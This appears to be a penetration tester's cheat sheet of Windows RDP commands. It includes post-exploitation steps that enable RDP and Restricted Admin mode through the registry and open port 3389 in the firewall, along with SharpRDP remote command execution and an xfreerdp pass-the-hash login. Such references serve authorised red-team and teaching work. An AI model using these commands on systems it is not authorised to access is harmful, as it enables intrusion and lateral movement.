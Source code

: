 # windows rdp

% rdp, windows, 3389
#platform/windows  #target/local  #protocol/rdp #port/3389

## enable RDP
#cat/POSTEXPLOIT 
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## enable restricted admin
#cat/POSTEXPLOIT 
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

## disable restricted admin
#cat/POSTEXPLOIT 
```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

## rdp from console
```
sharprdp.exe computername=<computer> command="<command>" username=<domain>\<user> password=<password>
```

## Add firewall authorisation RDP
#cat/POSTEXPLOIT 
```
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp
```

# rdesktop
% rdp, windows
#platform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## rdesktop - classic
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain>
```

## rdesktop - with share
```
rdesktop -g 90% <ip> -u <user> -p <password> -d <domain> -r disk:share=<share>
```

# xfreerdp

% rdp, windows
#platform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

## xfreerdp - classic
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:1800x924
```

## xfreerdp - with share
```
xfreerdp /u:<user> /p:<password> /d:<domain> /v:<ip> /size:1800x924 /drive:share,<share>
```

## xfreerdp - pass the hash
```
xfreerdp /u:<user> /pth:<hash> /d:<domain> /v:<ip>
```

